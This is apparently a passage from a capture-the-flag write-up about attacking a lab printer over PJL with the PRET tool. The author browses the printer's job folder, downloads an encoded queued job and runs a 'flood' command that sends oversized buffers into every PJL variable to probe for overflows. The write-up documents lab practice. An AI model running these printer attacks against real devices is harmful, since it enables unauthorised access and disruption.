 This time I was able to navigate the file structure.  In the folder `/pjl/jobs` there was a file named `queued`. 

{% hint style="info" %}
I made the mistake of **`cat`**-ing the **`queued`** file at first. Don't do this, unless you want to copy the extremely long base64 string and recreate the file yourself. Use **`get`** instead...
{% endhint %}

```text
10.10.10.201:/pjl/jobs> get queued
172199 bytes received.
```

**Use `get`**.  This will nicely download the file to your local machine.  However, when I opened the file it was still a wall of base64 encoded text so I tried to decode it.

```text
┌──(zweilos㉿kali)-[~/htb/laser/PRET]
└─$ echo queued | base64 -d > queued.decoded
base64: invalid input
```

After removing the extra characters \(that looked to indicate that it was supposed to be a python byte string\) from the file I tried to base64 decode it, but it still seemed to be invalid encoding.  I decided to keep enumerating to see if I could find anything to help me move forward.

```text
10.10.10.201:/pjl/jobs> df
VOLUME TOTAL SIZE FREE SPACE LOCATION LABEL STATUS
0:     1755136    1718272    <HT>     <HT>  READ-WRITE
```

I did seem to have read-write access on the local drive.  I wondered if there was a way to write something malicious to the printer to execute code...

```text
10.10.10.201:/pjl/jobs> id
LaserCorp LaserJet 4ML
10.10.10.201:/pjl/jobs> pagecount
Hardware page counter: PAGECOUNT=183933
10.10.10.201:/> flood
Receiving PJL variables. Found 29 variables.
Buffer size: 10000, Sending: @PJL SET COPIES=[buffer]
Buffer size: 10000, Sending: @PJL SET PAPER=[buffer]
Buffer size: 10000, Sending: @PJL SET ORIENTATION=[buffer]
Buffer size: 10000, Sending: @PJL SET FORMLINES=[buffer]
Buffer size: 10000, Sending: @PJL SET MANUALFEED=[buffer]
Buffer size: 10000, Sending: @PJL SET RET=[buffer]
Buffer size: 10000, Sending: @PJL SET PAGEPROTECT=[buffer]
Buffer size: 10000, Sending: @PJL SET RESOLUTION=[buffer]
Buffer size: 10000, Sending: @PJL SET PERSONALITY=[buffer]
Buffer size: 10000, Sending: @PJL SET TIMEOUT=[buffer]
Buffer size: 10000, Sending: @PJL SET MPTRAY=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY1=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY2=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY3=[buffer]
Buffer size: 10000, Sending: @PJL SET CLEARABLEWARNINGS=[buffer]
Buffer size: 10000, Sending: @PJL SET AUTOCONT=[buffer]
Buffer size: 10000, Sending: @PJL SET DENSITY=[buffer]
Buffer size: 10000, Sending: @PJL SET LOWTONER=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY1SIZE=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY2SIZE=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY3SIZE=[buffer]
Buffer size: 10000, Sending: @PJL SET INTRAY4SIZE=[buffer]
Buffer size: 10000, Sending: @PJL SET LPARM:PCL FONTSOURCE=[buffer]
Buffer size: 10000, Sending: @PJL SET LPARM:PCL FONTNUMBER=[buffer]
Buffer size: 10000, Sending: @PJL SET LPARM:PCL PITCH=[buffer]
Buffer size: 10000, Sending: @PJL SET LPARM:PCL PTSIZE=[buffer]
Buffer size: 10000, Sending: @PJL SET LPARM:PCL SYMSET=[buffer]
```